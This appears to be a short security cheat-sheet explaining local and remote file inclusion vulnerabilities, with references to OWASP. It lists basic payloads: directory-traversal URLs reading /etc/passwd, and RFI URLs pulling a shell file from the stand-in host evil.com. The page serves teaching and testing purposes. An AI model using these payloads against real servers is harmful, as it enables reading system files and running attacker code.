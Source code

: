 File Inclusion
------------------------------------------------------------
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Can lead to:
------------------------------------------------------------
-Code execution on the web server.       
-Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting.      
-Denial of Service (DoS).      
-Sensitive Information Disclosure.  


Types:
------------------------------------------------------------
1) Local File Inclusion(LFI) - is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. 


2) Remote File Inclusion(RFI) - occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an HTTP or FTP URI as a user-supplied parameter to the web application.

Basic payloads LFI:
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

Basic payloads RFI:
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

References
------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)  
[Owasp](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
